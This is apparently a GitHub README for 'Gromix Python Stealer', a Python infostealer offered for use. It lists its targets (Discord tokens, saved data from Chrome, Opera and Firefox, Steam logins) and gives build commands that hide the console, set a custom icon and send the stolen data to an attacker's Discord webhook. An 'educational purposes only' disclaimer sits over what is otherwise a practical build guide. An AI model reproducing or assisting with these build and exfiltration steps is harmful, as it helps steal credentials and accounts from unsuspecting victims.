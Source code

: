 # :heartpulse: _**Gromix Python Stealer**_ :heartpulse:
### :police_car: _DISCLAIMER: This program is for educational purposes only._ :police_car:

<details>
  <summary>Important info</summary>
  <i>This stealer is very, VERY new and needs a lot of work</i>
</details>

## What data can it steal ?
- :closed_book: Discord tokens
- :closed_book: Google Chrome
- :closed_book: Opera
- :closed_book: Firefox
- :closed_book: Steam login / installed apps

## Features
- [x] Build using Nuitka
- [x] Send all data by Discord webhooks.
- [x] Custom ico

## How to build

:bangbang: *INSTALL ALL REQUIREMENTS BEFORE BUILDING*

```console
pip install -r requirements.txt
```

Just put your Discord webhook inside _webhook.txt_ file. Then:
```console
python build.py
```

Or you can do it like this:
```console
python build.py --webhook=https://discord.com/api/webhooks/2281488/something
```

After that our exe file will start to generate.
I build this on Python 3.10, final .exe file size is **28717 KB** :floppy_disk:

If you're having troubles with _build.py_ script, just edit constant inside _webhook.py_:
```python
WEBHOOK = "https://discord.com/api/webhooks/2281488/something"
```
Then, execute this command:
```console
python -m nuitka --standalone --onefile --disable-console --windows-icon-from-ico=icon.ico stealer.py
```
